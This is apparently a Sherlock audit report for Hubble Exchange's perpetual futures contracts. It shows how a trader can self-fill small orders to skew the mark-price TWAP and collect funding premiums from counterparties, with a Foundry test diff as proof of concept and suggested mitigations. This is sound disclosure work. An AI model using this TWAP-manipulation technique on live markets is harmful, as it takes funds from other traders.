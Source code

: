 dirk_y

high

# Malicious user can control premium emissions to steal margin from other traders

## Summary
A malicious user can force premiums to be applied in a positive direction for their positions. They can effectively steal margin from other traders that have filled the other side of their positions.

## Vulnerability Detail
This vulnerability stems from how the premiums are calculated when `settleFunding` is called in `AMM.sol`:

```solidity
int256 premium = getMarkPriceTwap() - underlyingPrice;
```

Effectively, the premium for a position is calculated based on the difference between the perpetual maker TWAP and the oracle TWAP. Under the hood, `getMarkPriceTwap` calls `_calcTwap`, which calculates the TWAP price from the last hour to the current block timestamp:

```solidity
        uint256 currentPeriodStart = (_blockTimestamp() / spotPriceTwapInterval) * spotPriceTwapInterval;
        uint256 lastPeriodStart = currentPeriodStart - spotPriceTwapInterval;

        // If there is no trade in the last period, return the last trade price
        if (markPriceTwapData.lastTimestamp <= lastPeriodStart) {
            return markPriceTwapData.lastPrice;
        }

        /**
        * check if there is any trade after currentPeriodStart
        * since this function will not be called before the nextFundingTime,
        * we can use the lastPeriodAccumulator to calculate the twap if there is a trade after currentPeriodStart
        */
        if (markPriceTwapData.lastTimestamp >= currentPeriodStart) {
            // use the lastPeriodAccumulator to calculate the twap
            twap = markPriceTwapData.lastPeriodAccumulator / spotPriceTwapInterval;
        } else {
            // use the accumulator to calculate the twap
            uint256 currentAccumulator = markPriceTwapData.accumulator + (currentPeriodStart - markPriceTwapData.lastTimestamp) * markPriceTwapData.lastPrice;
            twap = currentAccumulator / spotPriceTwapInterval;
        }
```

This method works closely in conjunction with `_updateTWAP` which is called every time a new position is opened based on the fill price. I'll talk more about his in the "Recommendation" section, but the core issue is that too much weight is placed on the last price that was filled, along with the fact the user can open uncapped positions. As can be seen from the `_calcTwap` method above, if there has not been a recently opened position, then the TWAP is determined as the last filled price. And naturally, a time weighted price isn't weighted by the size of a fill as well, so the size of the last fill has no impact.

As a result of this, a malicious user can place orders (which should then be executed by the validators) at a price that maximises the difference between the market TWAP and the oracle TWAP in order to maximise the premiums generated in the market. If the malicious user opens up a large enough position, the premiums generated exceed the taker/maker fees for opening positions. And since the same user can place orders for both sides of the market, they do not need to increase their margin requirement over time in order to meet the minimum margin requirements. Effectively the user is able to generate free revenue assuming the price of the underlying asset doesn't significantly deviate in the opposite direction of the large position held by the user.

Below is a diff to the existing test suite with a test case that shows how a malicious user could control premiums to make a profit. It can be run with `forge test -vvv --match-path test/foundry/OrderBook.t.sol`:

```diff
diff --git a/hubble-protocol/test/foundry/OrderBook.t.sol b/hubble-protocol/test/foundry/OrderBook.t.sol
index b4dafdf..f5d36b2 100644
--- a/hubble-protocol/test/foundry/OrderBook.t.sol
+++ b/hubble-protocol/test/foundry/OrderBook.t.sol
@@ -228,6 +228,60 @@ contract OrderBookTests is Utils {
         assertPositions(bob, -size, quote, 0, quote * 1e18 / stdMath.abs(size));
     }
 
+    function testUserCanControlEmissions() public {
+        uint256 price = 1e6;
+        oracle.setUnderlyingPrice(address(wavax), int(uint(price)));
+
+        // Calculate how much margin required for 100x MIN_SIZE
+        uint256 marginRequired = orderBook.getRequiredMargin(100 * MIN_SIZE, price) * 1e18 / uint(defaultWethPrice) + 1e10; // required weth margin in 1e18, add 1e10 for any precision loss
+        
+        // Let's say Alice is our malicious user, and Bob is a normal user
+        addMargin(alice, marginRequired, 1, address(weth));
+        addMargin(bob, marginRequired, 1, address(weth));
+
+        // Alice places a large legitimate long order that is matched with a short order from Bob
+        placeAndExecuteOrder(0, aliceKey, bobKey, MIN_SIZE * 90, price, true, false, MIN_SIZE * 90, false);
+
+        // Alice's free margin is now pretty low
+        int256 availabeMargin = marginAccount.getAvailableMargin(alice);
+        assertApproxEqRel(availabeMargin, 200410, 0.1e18); // Assert within 10%
+
+        // Calculate what's the least we could fill an order for given the oracle price
+        uint256 spreadLimit = amm.maxOracleSpreadRatio();
+        uint minPrice = price * (1e6 - spreadLimit) / 1e6;
+
+        // Alice can fill both sides of an order at the minimum fill price calculated above, with the minimum size
+        // Alice would place such orders (and hopefully have them executed) just after anyone else makes an order in a period (1 hour)
+        // The goal for Alice is to keep the perpetual TWAP as low as possible vs the oracle TWAP (since she holds a large long position)
+        // In quiet market conditions Alice just has to make sure she's the last person to fill
+        // In busy market conditions Alice would fill an order immediately after anyone else fills an order
+        // In this test Alice fills an order every 2 periods, but in reality, if nobody was trading then Alice wouldn't have to do anything provided she was the last filler
+        for (uint i = 0; i < 100; i++) {
+            uint256 currentPeriodStart = (block.timestamp / 1 hours) * 1 hours;
+
+            // Warp to before the end of the period
+            vm.warp(currentPeriodStart + 3590);
+            
+            // Place and execute both sides of an order as Alice
+            // Alice can do this because once both sides of the order are executed, the effect to her free margin is 0
+            // As mentioned above, Alice would place such orders every time after another order is executed
+            placeAndExecuteOrder(0, aliceKey, aliceKey, MIN_SIZE, minPrice, true, false, MIN_SIZE, false);
+            
+            // Warp to the start of the next period
+            vm.warp(currentPeriodStart + (3600 * 2) + 10);
+            
+            // Funding is settled. This calculates the premium emissions by comparing the perpetual twap with the oracle twap
+            orderBook.settleFunding();
+        }
+
+        // Alice's margin is now significantly higher (after just 200 hours) because she's been pushing the premiums in her direction
+        availabeMargin = marginAccount.getAvailableMargin(alice);
+        assertApproxEqRel(availabeMargin, 716442910, 0.1e18); // Assert within 10%
+
+    }
+
     function testLiquidateAndExecuteOrder(uint64 price, uint120 size_) public {
         vm.assume(price > 10 && size_ != 0);
         oracle.setUnderlyingPrice(address(wavax), int(uint(price)));

``` 

## Impact
A user can effectively steal funds from other traders that are filling the other side of their positions. The larger the position the malicious user is able to fill and the longer the period, the more funds can be credited to the malicious user's margin account.

## Code Snippet
https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/AMM.sol#L255-L258
https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/AMM.sol#L501-L503

## Tool used
Manual Review

## Recommendation
I originally thought the best way to mitigate this kind of attack is to scale the TWAP calculation based on the filled amount vs the total fill amount of the whole market. However the downside with this approach is that the fill amount will perpetually increase (given it's a perpetual market after all!) and so the market TWAP deviations from the oracle TWAP would decrease and so the premium emissions would also decrease over time. This could be argued as a feature in that early users receive a larger premium than later users.

Upon further thought I think the best way to prevent this kind of attack is simply to disincentivise the malicious user from doing so; by making this a net-loss situation. This can be done with a combination of the following:

- Increasing minimum order size
- Increasing trader/maker fees
- Introducing another fixed fee per order (rather than only variable rate fees)
- Capping the maximum position size (both long and short)
- Reducing the maximum price deviation of fill prices from oracle price
- Increasing the minimum margin requirements

This will vary per perpetual market, but the key thing that needs to be accomplished is that the cost to a user to place orders to control the market TWAP is greater than the premium that can be obtained from their position. This will also require some estimates as to how frequently users are going to be placing orders. If orders are relatively infrequent then increasing the TWAP calculation from 1 hour will also help with this.

It is also worth considering whether the following lines in `_calcTwap` are overly weighted towards the last fill price:

```solidity
       // If there is no trade in the last period, return the last trade price
        if (markPriceTwapData.lastTimestamp <= lastPeriodStart) {
            return markPriceTwapData.lastPrice;
        }
```

You could make the argument that if no trades have occurred in a significant period of time then the market TWAP should revert back to the oracle TWAP and premium emissions should halt. This could either be after one empty period, or X number of empty periods to be defined by Hubble.

Finally, having a trader able to hold both sides of the same perpetual in the same order makes this attack easier to implement, so it might be worth adding an extra check to prevent this. However it's worth noting the same could be achieved with 2 accounts assuming they alternated the long/short positions between them to avoid excessive margin requirements. So I'm not sure this is strictly necessary.